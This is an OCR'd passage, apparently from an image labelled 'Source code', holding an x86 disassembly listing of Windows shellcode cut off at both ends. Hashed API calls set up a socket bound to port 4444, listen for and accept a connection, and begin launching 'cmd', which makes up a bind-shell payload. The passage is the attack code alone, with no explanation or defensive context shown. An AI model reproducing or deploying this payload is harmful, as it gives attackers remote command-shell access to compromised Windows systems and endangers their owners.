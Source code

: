000000B3  40                inc eax

000000B4  50                push eax

000000B5  68EA0FDFE0        push dword 0xe0df0fea

000000BA  FFD5              call ebp

000000BC  97                xchg eax,edi

000000BD  680200115C        push dword 0x5c110002

000000C2  89E6              mov esi,esp

000000C4  6A10              push byte +0x10

000000C6  56                push esi

000000C7  57                push edi

000000C8  68C2DB3767        push dword 0x6737dbc2

000000CD  FFD5              call ebp

000000CF  57                push edi

000000D0  68B7E938FF        push dword 0xff38e9b7

000000D5  FFD5              call ebp

000000D7  57                push edi

000000D8  6874EC3BE1        push dword 0xe13bec74

000000DD  FFD5              call ebp

000000DF  57                push edi

000000E0  97                xchg eax,edi

000000E1  68756E4D61        push dword 0x614d6e75

000000E6  FFD5              call ebp

000000E8  68636D6400        push dword 0x646d63

000000ED  89E3              mov ebx,esp

000000EF  57                push edi

000000F0  57                push edi

000000F1  57                push edi

000000F2  31F6              xor esi,esi

000000F4  6A12              push byte +0x12

000000F6  59                pop ecx

000000F7  56                push esi

000000F8  E2FD              loop 0xf7

000000FA  66C744243C0101    mov word [esp+0x3c],0x101

